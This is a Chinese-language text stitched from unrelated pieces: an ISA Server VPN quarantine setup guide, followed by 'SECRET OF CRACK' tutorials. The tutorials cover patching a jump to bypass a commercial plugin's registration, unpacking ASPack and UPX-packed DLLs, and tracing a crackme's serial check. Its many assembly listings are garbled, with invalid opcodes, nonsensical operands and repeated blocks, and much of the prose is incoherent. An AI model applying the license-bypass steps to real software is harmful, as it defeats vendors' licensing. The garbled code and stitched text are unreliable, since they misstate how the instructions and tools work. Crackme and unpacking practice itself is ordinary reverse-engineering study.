VPN功能在ISA进入“配置”页面中，可以看到下面有一个“被隔离的VPN客户端”。双击打开设置：

> 隔离：可用可被隔离，在特定的时间范围内，如果VPN客户端被隔离，则将自动断开连接。
> 以时间：在特定的时间段内，如果VPN客户端被隔离，则将自动断开连接。


此后，ISA主机在设置下方点击一层，就是创建一个隔离使用的客户端，客户端包含一个计算机列表等。通过一个组件，连接配置管理设备后，可以在安装设置中，通过某种方式来实现客户端动作，在选择版本名和名称后可以由自己设置识别后点击下一步，选择隔离策略VPN属性，如图26和27所示。接下来选择隔离策略VPN属性，这里是默认的，如图30所示。可以从这里下载更新策略，点击一下定义自定义动作，当VPN客户端时可以选择不同的选项，例如类型：

| 属性 | 值 |
| :--- | :--- |
| DHCP | 1.1 |
| Windows Installer | 0.9 |
| DNS(禁用) | 0.9 |
| 其它 | 0.5 |


当VPN客户端时可以选择不同的选项（例如使用特定的动作）。

| 属性 | 值 |
| :--- | :--- |
| 隔离 | 1.2 |


配置VPN策略时，点击“编辑”按钮，如果该策略已经存在，如果没有则创建新的策略。

| 属性 | 值 |
| :--- | :--- |
| 策略名称 | ... |


在配置规则时，点击“添加”按钮，可以添加新的规则。

| 属性 | 值 |
| :--- | :--- |
| 规则名称 | ... |
| 规则描述 | ... |


配置这个动作是VPN客户端脚本检测动作。我们必须先执行一个动作，描述内容包含例如`rqc.exe`，该程序用于运行服务器和客户端。执行时会有`DataAccessError`、`TunnelError`、`UserName`错误。设置规则类型为“连接后”，因为在客户端连接后。设置完成后，点击“完成”，然后点击“下一步”，直到“完成”以生成保存策略，在`C:\Files\Program`使用一个默认策略。

## Vpn支持

你可以通过配置服务器、在Internet上使用VPN客户端访问网络：当用户连接到不同的网络时，会自动启动专门的VPN客户端：

- 如果没有安装VPN客户端
- VPN客户端的安装位置
- 默认安装路径
- 如果有VPN服务器地址，将它输入到相应的框中


图 29

## 连接到文件服务器

你可以在VPN连接中建立一个VPN隧道来访问远程服务器：文件服务器。


图30

## 远程文件访问

当你通过VPN连接后，可以像访问本地网络一样访问远程服务器：文件服务器。


图 31

## 管理VPN客户端

在VPN客户端中，你可以配置和管理不同的VPN连接：连接列表、连接设置。


图 32

## 通过检测自动发现服务器

可能会给出显示如下：


34和35图

在输出：


显示34的：时，你的客户端在一定时间后自动连接：这个连接仅仅是在ISA设置中实施的时间。在真实环境环境下，可以被VPN客户端长度的访问时间。在专业环境中放置一个隔离。在远程服务器中放置将被客户端可以看到该连接服务器安装后、更新软件。完成后，当它到安全完全时出现正常连接。


图 34

## Remote Access Quarantine

Security check：
> The security configuration of this computer
> meets the remote access security policy：
> You are granted access.
> Internet Firewall (ISF) must be enabled on all connections.
> The connection will be dropped.

### 连接管理器

### 防火墙

### 应用策略

远程VPN客户端：防火墙将拦截适当的VPN流量。

图 35

# SECRET OF CRACK

Fake，用程序来袭充自己的产品或网站，是很多人做过的事。然而，泛滥的破解软件可能会破坏了你们的安宁生活，而更大的破解软件会让它变得更不不防地出现出来，本书就选取了其中一个作为破解练习的目标。

适合读者：破解爱好者，程序员
前言：知识汇总从本书阅读指南

## 插件网络注册编辑器破解版

### 插件破解


下载插件网络注册编辑器2.0 2013.11.23 原版程序，使用`PEID 09C`查看后，查到程序加了`Pack2-3 x Heuristic Mode -> Dwing`；直接用`PE`自带的`PEID`用程序破解器把注册后，运行一下看看，但是，可能需要用自助工具，用`DICE`程序分析，发现有任何异常注册信息。

了，上面的几个跳转就是关键字，直接把`005CFF30`的`je`跳转改为`005CFF43`改为`jmp short Flash,005CFF43`，保存程序后注册看看，如果运行成功了！这时候的操作就是再次注册注册看看就行。发现注册程序没有显示时间，但注册程序依然会显示时间（软件文和注册程序显示时间为30天后），对于这些链接，如图2所示。


图 1


``` 
005E46C = 55 push
005E46D = 8B mov esp
005E46E = 83 EC EC
005E46F = 83 B4D53D50 mov eax,Flash
005E470 = E8 92C2FC2C call FlashServer::000007F2
005E471 = A1C6A5D50 mov eax,edp
005E472 = 8B push
005E473 = 59 pop
005E474 = 80 E109FF test eax,esp
005E475 = E8 F4D074C6 call FlashServer::004074C6
005E476 = 8B EB4B8FF call FlashServer::00005FE0
005E477 = 55 push
005E478 = 8B mov esp
005E479 = 83 EC EC
005E47A = 83 B4D53D50 mov eax,Flash
005E47B = E8 92C2FC2C call FlashServer::000007F2
005E47C = A1C6A5D50 mov eax,edp
005E47D = 8B push
005E47E = 59 pop
005E47F = 80 E109FF test eax,esp
005E480 = E8 F4D074C6 call FlashServer::004074C6
005E481 = 8B EB4B8FF call FlashServer::00005FE0
005E482 = 55 push
005E483 = 8B mov esp
005E484 = 83 EC EC
005E485 = 83 B4D53D50 mov eax,Flash
005E486 = E8 92C2FC2C call FlashServer::000007F2
005E487 = A1C6A5D50 mov eax,edp
005E488 = 8B push
005E489 = 59 pop
005E48A = 80 E109FF test eax,esp
005E48B = E8 F4D074C6 call FlashServer::004074C6
005E48C = 8B EB4B8FF call FlashServer::00005FE0
005E48D = 55 push
005E48E = 8B mov esp
005E48F = 83 EC EC
005E490 = 83 B4D53D50 mov eax,Flash
005E491 = E8 92C2FC2C call FlashServer::000007F2
005E492 = A1C6A5D50 mov eax,edp
005E493 = 8B push
005E494 = 59 pop
005E495 = 80 E109FF test eax,esp
005E496 = E8 F4D074C6 call FlashServer::004074C6
005E497 = 8B EB4B8FF call FlashServer::00005FE0
005E498 = 55 push
005E499 = 8B mov esp
005E49A = 83 EC EC
005E49B = 83 B4D53D50 mov eax,Flash
005E49C = E8 92C2FC2C call FlashServer::000007F2
005E49D = A1C6A5D50 mov eax,edp
005E49E = 8B push
005E49F = 59 pop
005E4A0 = 80 E109FF test eax,esp
005E4A1 = E8 F4D074C6 call FlashServer::004074C6
005E4A2 = 8B EB4B8FF call FlashServer::00005FE0
005E4A3 = 55 push
005E4A4 = 8B mov esp
005E4A5 = 83 EC EC
005E4A6 = 83 B4D53D50 mov eax,Flash
005E4A7 = E8 92C2FC2C call FlashServer::000007F2
```

（注册此处跳转）`F8`单步到（`005E468`），这里程序跳转，`CALL`看到这里跳转到Client内存到（`005C2F6`），这里跳转到（`005C2F7`）显示为对比后的结果：用注册编辑器，`BP`下注册运行程序到

``` 
005C2F0 = 8B 42 D5 2F F3 call FlashServer::0040270
005C2F5 = 83 54 D4 00 cmp dword ptr esp
005C2FF = 75 09 short FlashServer::005C308
005C304 = 8B 42 mov esp,esp
005C306 = 55 push
005C307 = 80 E1 54 test eax,esp
005C30B = 75 38 short pop eax
005C313 = 34 mov esp,esp+4
005C317 = 83 E1 54 test eax,esp
005C31B = 76 EB eax
005C31D = 65 F5 01 0B short FlashServer::00405F3
005C325 = 31 EC mov eax,ec
005C327 = 8B E1 48 F3 call FlashServer::00407C4
005C32B = 33 30 add eax,ec
```

（注册此处跳转）`F8`找到跳转到（`005C32D`）这里跳转到结果

``` 
77E13227 = 55 push
77E13228 = 8B CC mov esp
77E1322A = je short Flash
77E1322B = 83 3B D4D3D50 cmp dword ptr esp
```

2020（黑注册）

``` 
004A7479 = 75 0B test eax,esp
004A747A = 8B EB99D0F7 call MessageBox::0004582
004A747B = 8B F0 mov dword ptr esp:[ebx-8]
004A7482 = 31 C0 xor eax,ec
004A7484 = 55 push
004A7485 = 59 pop ec
004A7487 = 64:6910 mov dword ptr fs:[],],
```

注册地区...

图 2

``` 
000D80A 5A 88C3E8FF call FlashSen0474994
000D81B 82B01 mov dword [esp-40]
000D81C 8B 20C6A100 mov eax,[esp+ptr-40]
000D81D 88E3B2R2F call FlashSen03A0A3B3
```

``` 
000D8C3 48 55 EC lea eax,dword[esp-40]
000D8C5 83 39 xor eax,ec
000D8C6 88 4B053C4 mov eax,Flash
000D8CD 88B232R2F call FlashSen03AA3B3
000D8EF 40A0AF3
```

一直返回到`000D811`之后，发现没有直接找到此处的跳转，如图所示：

``` 
000D8E4 E6 AA call FlashSen03A0A3B3
000D8E6 E8 00000000 call FlashSen...
000D8E9 B4 76 jmp [esp+ptr-40]
```

看到`000D8C36`之后没有跳转点，如图所示：

``` 
000D7F02 E6 AA call FlashSen005D2C10
000D7F04 E8 00000000 call FlashSen...
000D7F07 8B C45 mov eax,[esp+ptr-10]
000D7F0A 89 C8 DC300000 mov eax,dword ptr[ptr-...
```

`000D7FB9`/`000D7FA2`两个跳转，继续往下执行

``` 
000D7FB9 8B 7D30F3 call FlashSen005D2C10
000D7FC2 85 test,al
000D7FC4 90 nop
000D7FC6 90 nop
000D7FC8 90 nop
000D7FCB 90 nop
000D7FD0 85 D5 D4 lea eax,dword ptr[esp+ptr-24]
000D7FD3 8B DC300000 mov eax,dword ptr[ptr-...
```

``` 
000D7FE1 83 54 mov eax,dword [esp+ptr-24]
000D7FE4 85 E1A3E3FF call FlashSen00A03B4
000D7FE7 8B 7D DC300000 mov eax,dword ptr[ptr-...
000D7FEA 90 nop
000D7FEC 90 nop
000D7FEE 90 nop
000D7FF1 85 D5 D4 lea eax,dword ptr[esp+ptr-36]
```

修改了代码，保存后，然后运行`00DFF15`进行登录测试，发现登录的用户名已经失效了，此时系统弹出一个提示：“用户名无效”，点击OK后，可以再次使用了。此时发现没有限制，但是密码还是用户名的？看来我们可以尝试修改它，继续运行到`00DFF17`之后，再走一步，看看登录数据的变化。

``` 
000DBC42 55 push
000DBC43 8B DC300000 mov eax,dword ptr[ptr-...
000DBC49 83 54 mov eax,dword ptr[dec-54]
000DBC4C 89 E4 mov dword ptr[esp-14]
000DBC4F 65 48 EB mov dword ptr[esp-10]
```

``` 
000D5FF4 33 C9 xor eax,eax
000D5FF7 58 pop eax
000D5FF9 8B C2F3H2R2F call FlashSen04A0A3B3
000D5FA0 40A0AFB
000D5FA3 8B DC mov dword ptr[esp-20]
```

找到一个跳转点：注册用户名“`%s`”或密码个数“`%s`”跳转到地址，如图5所示。这里[`000D5CB85`][`000D5C85`]，它们的跳转逻辑如下：

``` 
000D5C00 E6 AA call FlashSen005D2C10 (跳转点)
000D5C03 E8 00000000 call FlashSen... (跳转点)
000D5C06 8B C45 mov eax,[esp+ptr-10] (跳转点)
000D5C09 89 C8 DC300000 mov eax,dword ptr[ptr-...
```

``` 
000D5C27 83 54 mov dword ptr[esp+ptr-30]
000D5C2A 85 E1A3E3FF call FlashSen00A03B4
000D5C2D 8B 7D DC300000 mov eax,dword ptr[ptr-... (跳转点)
000D5C30 90 nop
000D5C32 90 nop
000D5C34 90 nop
000D5C37 85 D5 D4 lea eax,dword ptr[esp+ptr-36]
```

跟`000D7CAF`这个跳转过程，一个把保存到文件，查询后“登录成功”：OK，可以再次使用之后，发现没有限制，但是密码还是用户名的

``` 
005E46C0 1F pop ds
005E46C1 0000 add byte ptr,al
005E46C3 05B7 add byte ptr,ex-29,8
005E46C6 0A B2A21C3 mov ptr|[C3DB2
005E46D3 0B BA7A3A6 mov ebx,4ABA3A7
005E46D5 04 inc eax
005E46D6 41 de eax
005E46D2 6C B6 mov db,oth
005E46D5 2A ED long short Flash.
005E46E4 09 E6AF67 mov ebx,A95B6
005E46E7 8B E6 mov al,of
005E46EF 93 B81514
005E46F1 1F pop eax
005E46F7 58 53D42FF call Flash.0040B50
005E46F8 09D039FF jmp Flash:005D805 // 这里是标记，F9 将跳转到这里：第9跳转以后，再跳转到这里若需要修改结束
005D05B8 8B C4 CD1D00mov eax,Flash.0040A5B8
005D05CD 85 E8 DE32B3EFF call Flash.
005D0BC62 88 F54 lea xword,ptr [ebp-8]
005D0BC68 03E26B6FF call Flash.
```

按照提示的顺序来找到`005D0BC21`和前面，找跳转结束了，我们直接写注册代码后，就开始研究吧！如图所示：

``` 
005E46E1 45 lea xword,ptr [ebp+56] // 汇编[005E46E1...[005E46EF]中汇编到十结束结束005E46F0 D7DA6B2A2B1C3B3B8A7A4A4FA4A6C3D7D4E6A7D [ebp+16]
```

-

``` 
005D07D1 85 lea xword,ptr [ebp-34]
005D07FF 3C 79 mov eax,ecx
005D07FF 58 E3C2F33FF call Flash.
0040AF37 EF EC600000 jmp Flash:00540
005D8001 90 nop
005D8002 90 nop
005D8003 90 nop
005D8004 90 nop
005D08D4 88 DB mov xword,ptr [ebp-28
```


# SECRET OF CRACK

在段的空隙里，

queue and returns immediately.

5. 添加菜单单的消息代码。

消息使用`SendMessage`函数-一个窗口或多个窗口发送一个特定的进程。调用这个函数执行这个消息的过程。

## 改进消息

一般来说，改进的步骤是先写(Cracker)要写的消息之后，在发送到窗口进程后，用VC++。这正是我们写菜单的合适时候。我们还可以怎么添加菜单呢？

直接在`PostMessage`处理了订单过程后，对应的`PostMessage`消息是发送到对应的消息列表，然后立即返回。

我们调用`CreateResMenu`，定义菜单代码，如图1！

``` 
RESULT=SendMessage(hwnd, WM_COMMAND, handle of window, IntPtr);
UINT_MSG=message to send;
WPARAM=first parameter;
LParam=last parameter;
```


就是对应的菜单代码。

Return Values

The return value specifies the result of the message processing and depends on the message sent.

图

当我们有一个菜单的，如果这个菜单是这样的，基本上是这样的：

看到这个菜单的后，这个菜单有不同的，在选择下

``` 
POPUP(菜单(&C); // 菜单
nMENU(文件(&F),编辑(&E), 视图(&V), 窗口) 就会插入用户的菜单项/);
```

如果基础这样，那么那个菜单项很容易添加了，我们在窗口之间插入一个菜单

``` 
POPUP(菜单(&C); // 菜单
nMENU(保存(&S), 退出(&X)); // 每一个菜单都有不同的ID：
```


``` 
00000000: F15 21 00 00 PUSH EDI, CALL DWORD
00000005: 58 33 02 00 \SendMessage
0000000A: 53 01 00 PUSH EAX
0000000E: 39 01 00 00 PUSH EAX
00000013: 0F 00 00 00 JMP
00000017: 68 00 00 00 MOV EAX
0000001C: 8B 45 00 AND EAX, ECX
00000020: Case 31 (WM_COMMAND) of switch 00000010
00000029: 69 00 00 00 JMP -5
0000002D: 68 00 00 00 PUSH EAX
00000032: 70 00 00 00 PUSH EDI
00000036: 58 00 00 00 PUSH EAX
0000003C: 68 00 00 00 PUSH EAX
00000040: 70 00 00 00 PUSH EAX
00000045: 00 00 00 00 Arg = 0
0000004A: 60 00 00 00 PUSH EAX
0000004F: 89 76 04 / Arg = EAX+4
00000053: 68 00 00 00 CALL -
00000057: 68 00 00 00 PUSH EAX
0000005C: 70 00 00 00 PUSH EDI
00000060: 58 00 00 00 PUSH EDI
00000064: 68 00 00 00 PUSH EAX
00000069: 70 00 00 00 PUSH EAX
0000006D: 58 00 00 00 PUSH EAX
00000072: 00 00 00 00 Arg = 0
00000076: 60 00 00 00 PUSH EAX
0000007B: 89 76 04 / Arg = EAX+4
0000007F: 68 00 00 00 CALL -
00000083: 68 00 00 00 PUSH EAX
00000088: 70 00 00 00 PUSH EDI
0000008C: 58 00 00 00 PUSH EDI
00000090: 68 00 00 00 PUSH EAX
00000095: 70 00 00 00 PUSH EAX
00000099: 58 00 00 00 PUSH EAX
0000009E: 00 00 00 00 Arg = 0
000000A2: 60 00 00 00 PUSH EAX
000000A7: 89 76 04 / Arg = EAX+4
000000AB: 68 00 00 00 CALL -
000000AF: 68 00 00 00 PUSH EAX
000000B4: 70 00 00 00 PUSH EDI
000000B8: 58 00 00 00 PUSH EDI
000000BC: 68 00 00 00 PUSH EAX
000000C1: 70 00 00 00 PUSH EAX
000000C5: 58 00 00 00 PUSH EAX
000000CA: 00 00 00 00 Arg = 0
```

保存再下一个程序，就是这样的，如图2所示：


多个“菜单”。在界面上多了一个菜单，它就不会有问题了。为了这个功能，添加菜单必须要定位到特定的消息处理过程。

## 改进线程与处理

线程的消息处理常用`SendMessage`函数，我们可以通过这个函数发送消息到窗口或多个窗口。这个函数调用窗口程序为指定的窗口并且不返回直到窗口完成，使用`PostMessage`函数，在线程中发送一个线程的消息


``` 
00035BC ; 83D 26C8000 CMP DWORD PTR DS
00082C0 ; Case 11 (WM_SYSCOMMAND) of switch 01003D
0003593 ; 8B 40 MOV EAX,WORD PTR DS
```

``` 
0003596 ; 74 21 JE SHNOT_010035B9
0003598 ; 3D 20F00000 CMP EAX,20F0
00035A ; 74 25CFF8 JNOT_0100035C6
00035A3 ; 7D 04CFF8 JNE_0100035C1
00035A5 ; 3D 50F00000 CMP EAX,50F0
00035A8 ; 76 04CFF8 JAF_0100035B7
00035B9 ; 77 F4 PUSH 010035B7
```

``` 
00035C0 ; 50 PUSH EAX
00035BD ; 68 12 00 00 PUSH 112
```

``` 
00035CE ; 55 PUSH EBP
00035D ; 89 EC MOV EBP,EBP
0003560 ; 63 78 PUSH DWORD PTR:[EBP+8]
```

``` 
0003605 ; 74 15 JTC_01003614
0003607 ; 8B 45 C4 MOV DWORD PTR [EBP]
000360A ; 68 0B 00 00 PUSH 0B
000360F ; 89 65 FC MOV [EBP-4],EAX
0003613 ; 83 78 D0 CMP EAX,0300
0003616 ; 79 08 PUSH DWORD PTR:[EBP+8]
```

``` 
000361C ; 74 05 JNE_01000325
0003620 ; 8B 40 MOV EAX,WORD PTR DS
0003623 ; 8B B4 MOV [EBP-4],EAX
```

``` 
0003627 ; 75 0A JNZ_01000339
0003629 ; 8B 40 MOV EAX,WORD PTR DS
000362C ; 8B B74 MOV [EBP-4]
```

``` 
0003631 ; 31 C0 XOR EAX,EAX
0003633 ; 50 PUSH EAX
0003634 ; 69 29 PUSH EAX
0003637 ; 8F 40 MOV EAX,EAX
000363A ; 79 05 JMP (switch,1_303)
000363C ; 82 4F 40 CMP EAX,40
000363F ; 74 06 JNE 01000349
0003645 ; 4D FF AC(FF)MOV WORD PTR DS
0003648 ; 66 99 3D
```

``` 
000364B ; 89 49 MOV ECX,EAX
000364E ; 9D 8B AEEDFD EDI,EAX
0003651 ; 78 F8 PUSH DWORD PTR SS
0003654 ; 8B F7 EDI MOV [EBP-4],EAX
0003657 ; 66 44 MOV EAX,EAX
000365A ; 68 00 00 00 PUSH 00
000365F ; 89 44 24 MOV [EBP-4],EAX
0003662 ; 75 09 JNE_01000373
0003666 ; 8B 40 MOV EAX,WORD PTR DS
```

## 窗口消息的函数处理

我们需要调用`MessageBox`的参数如下：

``` 
MessageBox(hWnd, LPCSTR, LPCSTR, UINT);
```

`UINT` 类型：语言格式

获取消息ID -> 跳转到对应的函数，双击跳转：根据消息ID找到对应的函数，在这里插入你处理的函数

``` 
0003627 ; 8B 40 MOV EAX,WORD PTR DS
000362A ; 8B B4 MOV [EBP-4],EAX
000362D ; 55 PUSH EBP ; |Type=MB
0003630 ; FF CD PUSH EAX ; |Message
0003633 ; 8B F7 PUSH EAX ; |HWND
0003636 ; 50 PUSH EAX ; |Caption
0003639 ; 68 A0 Call ;|MessageBox
```

找到`01000327`，显示对话框并修改消息函数的参数。(`01001184`)添加函数

``` 
0003642 ; 55 PUSH EBP
0003644 ; 53 PUSH EAX
0003646 ; 0F 77 00 MOV EAX,WORD PTR DS
0003649 ; 89 EC ;[EBP+C]是语言
000364C ; 59 PUSH EBP
000364E ; 32 3B XOR EAX,EAX
0003651 ; 75 03 JMP (switch,1_303)
0003653 ; E8 98 45 00 00 JMP 010007C8
```

找到`010007C8`，让程序运行到这里，先插入你的代码，然后继续程序的代码，下面是`010007C8`的方法

``` 
01007DC8 83 4F 62 CMP EAX,62
01007DCB 74 0D JE SHORT,WORD PTR
```

``` 
0003529 ; 50 PUSH EAX
000352B ; 89 EC MOV EBP,EBP
000352E ; 81 BC2A SUB EBP,254
0003531 ; 53 PUSH EAX
0003533 ; 53 PUSH EAX
0003535 ; 0F 77 00 MOV EAX,WORD PTR DS
```

在消息处理之前，添加函数并确定位置，在这里直接插入`01002199`，这里就是你的方法：


## SECRET OF CRACK

找到`00007D0`：查找特征码后跳转

``` 
00007D0: 00 00 00
00007D3: 23 00 XOR EAX,EAX
00007D6: 00 00 00
00007D9: 31 00 CHOR ;
00007DC: 8B 40 ESP(EAX)
00007E0: 79 A5 B9 FF JMP SHORT,0293
00007E5: 77 00 00
00007E8: 00 00 00
00007EB: 00 00 00
000078B: 00 00 00
00007F0: 68 01 00 00 PUSH
00007F5: 55 8B 45 24 CALL DWORDPTR
00007F9: [EBP-C0] ;Message;
00007FD0: 5 00000000000000
0000803: 00 00 00
0000006: 00 00 00
0000809: 00 00 00
```

好了，这次修改后，OD右复制到执行文件保存后，你点击菜单会有声音。

## 结语

文章介绍了添加单点的方法，虽然添加单点功能很简单，但它只是一个例子。比如你想调试的程序已经运行了，只需要添加一个单点的代码就能调试多段空的代码，就需要自己添加单点了如果你有更高效的方法添加单点的时候，可以参考本文，欢迎大家分享！


这种添加单点的技巧非常适合调试反汇编现在我用它研究了破解和调试，而且这一次添加单点，希望为大家提供了很多功夫同时也适合读者，希望需要帮助的程序员汇编高手

## 前置准备

### IAT 调试/动态模块变形

动态模块之所以存在，都是DLL+API添加的。要在原本软件上安装完成后，通过启动程序可以运行，你就可以无忧的安装了软件监控器(`Filemon`)后观察了它的安装过程。

## 软件分析

`Filemon`是一个非常有色的内核级监控软件，它与所有文件操作相关的记录非常详细。这里由于限制给大家提供下载地址，允许用户对感兴趣的信息进行备份保存，查询过滤处理，这对于用户对软件的维护提供了许多的便利，如图1所示。

 

从`Filemon`中可以看到动态组件的，是写到`system32`文件目录下的，这里是动态模块有一个一点是：

 

独特的视角视角，我的服务还足够了吗？说错误，其实动态程序一路走来这么多年，我的努力和坚持是大家都能看到的。当前有最近在学习aspid的也想教大家破解PEID和and=1的味道，系统32 PE有挺好玩的动态DLL了，找一个`PE_Guest.dll`名为该调试易读的程序，没有用PEID查看过它的壳。如下所示：

看到了吗？Aspack 2.12 - Alexey Soladnikov是加了Aspack 2.12的，我们用OD加载，选择插件类型：动态连接，跳转到shellcode位置执行到这里后，没有关系。这里就可以了。

``` 
11850000: 60, PUSH
11850007: E8, 00C00000 CALL PE_Guest.dll
1185000B: 57, EB9D0435, JMP 56B8F4
```

## SECRET OF CRACK

``` 
110B50C: 55 PUSH EBP
110B50D: C3 RET
```

对ASPack的编写，我们可以用ESP定义来对ESP是不可以的，一次查找，查看。对于UPX的，我们同样可以用ESP定义来说。`110B51F6`，ESP值是`fb8`，执行命令F9运行，来到程序的EP。

``` 
00000034: ED FFFFFFFF
00000000: EC 005668
00000000: EC 005664
```

``` 
0000023B: 5A POP EBP
0000023D: 68 4F8904B PUSH
0000023E: 68 4F89044 PUSH
0000023C: 53 PUSH EDI
```

查到这里有了，在窗口输入`-fb68`，这里理解的硬件设置F8：查看数据。用单步到以后，回F9运行，程序会记得，这里遇到硬件F8后断点。程序的EP是`110B23D`，或者EP后，import修复一下。

``` 
110B530: 75 00 JNZ SHORT.EP.
110B53A: 08 00 MOV EAX
110B53B: C2 RET
110B537: 60 61FB61 PUSH EBP
110B541: C3 RET
```


对于过的ASPack编写的，这个文件是，只有OD知道的，可以让马上跳到想要的地方。对于import修复，我们需要先运行查找文件，如`uppack.exe`，在选择中的模块`Pe_guest.dll`文件，如图。出了ASPack了。

``` 
110B1F0: 70 C24 08 01 BYTE PUSH ESP[ESP+1]
110B1F6: 85 9A 001000 JNZ Pe_guest.dll
110B1F9: 60 PUSH
```


一般到这里就到了EP了，但是在现在这里还有一个个人，有病毒？查找它，查看OD


在OEP中我们刚才找到的OEP，F8后，自动点击连接并，查看结果，最后要修改文件，使用我们编写的代码，图。


可以使用查看`Pe_guest.dll`保护它。下面，我们用PEID查看结果，图。

| 属性 | 属性 | 导入函数 | 导出函数 |
| --- | --- | --- | --- |
| 00001000 | 00002000 | `GetProcAddress` | `_GetProc` |
| 00002000 | 00003000 | `LoadLibraryA` | `_LoadLib` |
| 00003000 | 00004000 | `VirtualAlloc` | `_VirtualAl` |
| 00004000 | 00005000 | `VirtualFree` | `_VirtualFr` |
| 00005000 | 00006000 | `CreateProcess` | `_CreatePr` |

| 入口 | 导入地址 | 导出地址 | 模块 |
| --- | --- | --- | --- |
| 00001000 | 00005000 | 00006000 | `guest.dll` |
| 00002000 | 00006000 | 00007000 | `kernel32` |
| 00003000 | 00007000 | 00008000 | `user32` |
| 00004000 | 00008000 | 00009000 | `ntdll` |

``` 
UPX 0.8-244 -- Dump -- 大不
```

这里还有一个UPX的，没有ESP，我们再次尝试吧

``` 
110B165: 85 9A 001000 JNZ Pe_guest.dll
110B168: 60 PUSH ; PUSH 入地址
110BBC: 8B 0FFE MOV ESI,Pe_guest.dll
110BD1: 80 0027F7 PUSH ESP+DWORD
110BD7: 57 PUSH EDI;
```

# Icefire;

以前在Windows 98中调试程序，受到的限制很少，所以当Windows 2000 推出时，让热爱者以苦为乐，那么很多东西就要重新学习了。这篇文章就用一个实例来介绍新的在 Windows XP 中可用功能还有许多新的关键函数，还非常适合初学者阅读。

## 前置知识：汇编基础与调试能力

## Windows XP中的功能断点

文/Doodky(OC软破解术)

大家知道，我们在Windows 98下调试程序时，有一个API叫做`MEMCPY`(内存断点)，这个函数有`Kernel32.dll`，其中原型如下：


```c
void *memmove(LPVOID dest, LPVOID src, size_t count);
void *huge_hvpDest;
const void *const copy(void *hvpSource, long long count);
```

- // 内存断点
- // 硬件断点
- // 数据断点

它的实现原理是：寻找内存断点是一个比较难的地方，大家可以使用SoftICE,OD在调试时就能轻松的断点，之后的意义就消失了。今天介绍如何在Windows XP中使用功能断点来查找注册号的过程。这里教大家一个简单的Crackme的破解方法：

在Windows XP中寻找功能断点的方法有很多，我其实在网上某个教程里就提到过一个`Point-h`在WinXP tutorial!这篇文章虽然简单，但不适合初学者，有一个可以分享，这里看过的教程可以去读，但又有一个可以分享的：

在32Debugger中寻找多个十六进制字符串如`F3 5A F4 A5 B8 83 03 E1 03 F4 A5` 地址是XP-找到的一个万能断点，然后我们一步一步地做：

1. 用OD打开所有要调试的`crac.exe`，右键点击`Crac`区域，在查找中，找“搜索用户32”，如图1所示。

2. 点击`Ctrl+B9`查找，`F3 5A F4 B8 83 03 F3 A4 E8`所示。找到地址后，点击双击设置即可。


进入调试，记录断点，如图3所示：

```
77DD35D3:F3 A5 RIP MOVS DWR PTR ES:[ED]
DW DTR PTR:[ES]
```

这就是我们要寻找的功能断点`point-h`了，接下来双击万能断点找到注册号的Crackme，一个加16字节，找到后按下`Ctrl+F2`再加上一次注册的`point-h`：

首先找到注册号，如图4所示：

`77DD35D3`

然后再点击`point-h`的这一步进入32模块中，然后按下`Ctrl+G`，在弹出窗口的Commandbox中查找找到`point-h`：点击双击，如图5所示。

在万能断点找到`F2`之后，如图6所示。回到Crackme注册口地址，注册程序在OD停下了。来，右侧的寄存器窗口出现了我们的用户名，找到所示。点击`F9`跳转到最后一次出现注册码为：，在`EDI`窗所示

注册信息：
注册密码：
注册日期：

## SECRET OF CRACK

寄存器单击右键选择“在内存中查看”。如图8所示。按`F9`步进到下一个`Call`处，查看中间值。如图9、10所示。在注册表(`789789789`)下


对于`For`循环，这里继续查看

```assembly
<&MSVBM60_,vVarForinit>
88DD 7EEFEFF lea edx, dword ptr sc
00400256
[ebp-188]
跳转，我不明白这样了
8983 3CFCDFF mov dword ptr sc
00402D62
F15 F81504000 call dword ptr sc
<&MSVBM60_,vVarFreeStr>
70EEFEFF lea edx, dword ptr sc
00402D68 88DD free
F15 FC1504000 call dword ptr sc
00402D70
[ebp-24]
00402D74 8335 mov eax,eax
<&MSVV60_,vVarFreeStr>
08140000 call <&MSVBM60_,vVarFree>
8983 3CFCDFF mov dword ptr sc
00402D7A 39BD
00402D80
FF84 F91504000 call dword ptr sc
(循环执行结束)
<&MSVBM60_,vVarForinit>
00402D84 8983 3CFCDFF mov dword ptr sc
[ebp-24]
00402D9C E9 6BFEF6 jmp short -44
跳转
004002F8
88DD 5CFFFFFFF lea edx, dword ptr sc
断点这里是F4跳转(结束)
004002FA 52 push edi; mov eax,edi
[ECX]函数结束了用户索引
F15 F8150000 call dword ptr sc
<&MSVBM60_,vVarPtr>
[ebp-188]
88DD 7EEFEFF lea edx, dword ptr sc
00400304 8983 3CFCDFF mov dword ptr sc
F15 F81504000 call dword ptr sc
<&MSVBM60_,vVarFreeStr>
004003A0 88DD 70EEFEFF lea edx, dword ptr sc
00400310 F15 FC1504000 call dword ptr sc
<&MSVBM60_,vVarFreeStr>
7C000000 mov edx, dword ptr <&MSVBM60_,vVarIdx>
0040031C 8983 34DD mov dword ptr sc
0040032C 85 test eax,eax
0040032E 74 05
00400357条件跳转(结束)
0040033E F15 F01504000 call dword ptr sc
<&MSVBM60_,vVarForinit>
0040035D 8983 3CFCDFF mov dword ptr sc
[ebp-2CC]
00400352 59 F3AFFF jmp short -2400
跳转
0040036D 88DD E5CD lea edx, dword ptr sc
断点这里是F4跳转(结束)
00400368 F15 381504000 call dword ptr sc
<&MSVBM60_,vVarForinit>又是一个For循环
0040036E 85 test eax,eax
```


内存调试，`F9`运行，图9所示。


程序在`6601223`处，图10。


我们用`F8`回到主循环，图12。


这里回到主循环，也就是算法了，我们用下一次`F9`运行，找到注册信息后，`00402C4`处，`F8`运行，单步执行。

```assembly
004002C4 33 cmp eax,edx
004002C6 82 jne
004002C8 72 jmp short 00402FC
004002CE 89 8FFFFFFFF mov dword ptr
[ebp-188]
004002D2 50 push eax; eax=789789789
004002D7 F15 10140000 call dword ptr sc
<&MSVBM60_,vVarPtr>计数器在执行中
004002FF F15 381504000 call dword ptr sc
```

www.hacker.com (黑客帝国) 精华版 上海

## SECRET OF CRACK

```assembly
00403640: 0F84 A0020000 jnc 004038f5条件跳转(jne)
0040384E: FF15 0100000 call dword ptr [esp-4]
<--MSVBVM60 push localVarNext;刚NextForLoop
00403850: 8E49D9FF jmp.short 00403c6向上跳转
00403858: 8B45E6 mov eax, dword ptr [ebp-6]
0040385C: 50 push eax
0040385D: FF91 C20000 call dword ptr [esp-7C] (EAX-7C)
00403864: 89D0 7FEEFF mov eax, dword ptr [ebp-24]
00403868: 50 push eax
00403869: 52 push edi
0040386A: FF15 1C030000 call dword ptr [esp-4]
<--MSVBVM60 vObjSet()mov eax
